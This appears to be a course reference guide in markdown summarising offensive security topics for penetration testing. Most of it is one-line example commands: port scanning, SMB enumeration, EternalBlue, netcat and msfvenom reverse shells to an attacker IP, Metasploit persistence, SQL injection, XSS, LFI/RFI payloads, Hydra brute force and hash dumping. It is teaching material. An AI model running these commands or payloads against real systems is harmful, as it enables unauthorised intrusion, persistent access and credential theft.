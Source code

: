 ```markdown
# Offensive Security Reference Guide

This document provides a comprehensive list of offensive security topics, tools, and techniques covered in the Offensive Security Unit. Use this as a quick reference for future penetration testing engagements.

---

## Penetration Testing Topics

- **OSINT**: Open Source Intelligence gathering to collect publicly available information about a target.
  - **Example**: Use `theHarvester` to gather email addresses and subdomains:
    ```bash
    theHarvester -d example.com -l 500 -b google
    ```

- **MITRE Framework**: A framework for understanding and mapping adversary tactics and techniques.
  - **Example**: Map lateral movement techniques to MITRE ATT&CK Tactic `TA0008`.

- **Enumeration**: Identifying users, services, and resources on a target system or network.
  - **Example**: Use `enum4linux` to enumerate SMB shares:
    ```bash
    enum4linux -a <target-ip>
    ```

- **Port Scanning**: Discovering open ports and services on a target system.
  - **Example**: Use `nmap` to scan for open ports:
    ```bash
    nmap -sS -p 1-1000 <target-ip>
    ```

- **Exploitation**: Leveraging vulnerabilities to gain unauthorized access to a system.
  - **Example**: Exploit SMB with Metasploit's EternalBlue module:
    ```plaintext
    use exploit/windows/smb/ms17_010_eternalblue
    ```

- **Shells**:
  - **Bind Shell**: The target machine opens a port and waits for the attacker to connect.
    - **Example**: Use `netcat` to create a bind shell:
      ```bash
      nc -lvp 4444 -e /bin/bash
      ```
  - **Reverse Shell**: The target machine connects back to the attacker.
    - **Example**: Use `msfvenom` to generate a reverse shell payload:
      ```bash
      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o shell.exe
      ```

- **Lateral Movement**: Moving between systems within a network using compromised credentials or exploits.
  - **Example**: Use `PsExec` to execute commands on another machine:
    ```bash
    psexec \\<target-ip> -u <username> -p <password> cmd.exe
    ```

- **Persistence**: Maintaining access to a compromised system over time.
  - **Example**: Use Metasploit's persistence module:
    ```plaintext
    run persistence -U -i 10 -p 4444 -r <attacker-ip>
    ```

---

## Web Application Vulnerabilities

- **Injection Vulnerabilities**:
  - **SQL Injection**: Exploiting improperly sanitized SQL queries to manipulate databases.
    - **Example**: Use `' OR '1'='1` in a login form to bypass authentication.
  - **XSS (Cross-Site Scripting)**:
    - **Stored XSS**: Inject a malicious script into a comment field that executes when viewed.
    - **Reflected XSS**: Inject a script into a URL parameter:
      ```plaintext
      http://example.com/search?q=<script>alert('XSS')</script>
      ```

- **Back-End Component Vulnerabilities**: Exploiting weaknesses in server-side components.
  - **Example**: Exploit an outdated Apache Struts server using Metasploit.

- **Directory Traversal**: Accessing restricted directories and files on a server.
  - **Example**: Use `../../etc/passwd` in a vulnerable URL to access sensitive files.

- **LFI (Local File Inclusion)**: Including local files on the server in the web application.
  - **Example**: Access passwd via a vulnerable parameter:
    ```plaintext
    http://example.com/index.php?page=../../etc/passwd
    ```

- **RFI (Remote File Inclusion)**: Including remote files in the web application.
  - **Example**: Inject a malicious script hosted on your server:
    ```plaintext
    http://example.com/index.php?page=http://<attacker-ip>/malicious.php
    ```

---

## Authentication Vulnerabilities

- **Session Management**: Exploiting weaknesses in session handling mechanisms.
  - **Example**: Steal a session cookie using XSS and reuse it to impersonate a user.

- **Brute-Force Attacks**: Attempting multiple username and password combinations to gain access.
  - **Example**: Use `Hydra` to brute-force SSH credentials:
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<target-ip>
    ```

---

## Penetration Testing Tools

- **Metasploit and Meterpreter**: A framework for exploitation and post-exploitation activities.
  - **Example**: Use Meterpreter to dump password hashes:
    ```plaintext
    meterpreter > hashdump
    ```

- **Nmap**: A network scanning tool for discovering hosts, services, and vulnerabilities.
  - **Example**: Scan for vulnerabilities using Nmap scripts:
    ```bash
    nmap --script vuln <target-ip>
    ```

- **Recon-ng**: A reconnaissance framework for gathering OSINT.
  - **Example**: Use the `recon/domains-hosts/bing_domain_web` module to find subdomains:
    ```plaintext
    recon-ng > modules load recon/domains-hosts/bing_domain_web
    ```

- **Shodan**: A search engine for discovering internet-connected devices and services.
  - **Example**: Search for open RDP servers:
    ```plaintext
    rdp port:3389
    ```

- **SearchSploit**: A tool for searching and using exploits from the Exploit-DB database.
  - **Example**: Search for an Apache vulnerability:
    ```bash
    searchsploit apache
    ```

- **netcat**: A versatile networking tool for creating connections, transferring data, and setting up shells.
  - **Example**: Set up a reverse shell:
    ```bash
    nc -e /bin/bash <attacker-ip> 4444
    ```

---

## Web Application Testing Tools

- **Burp Suite**: A comprehensive tool for testing web application security, including intercepting requests, scanning for vulnerabilities, and exploiting weaknesses.
  - **Example**: Use the Burp Intruder tool to brute-force a login form.

---

By referencing this guide, you can quickly recall the key topics, tools, and techniques covered in the Offensive Security Unit. Use this knowledge responsibly and ethically in your penetration testing engagements.
```
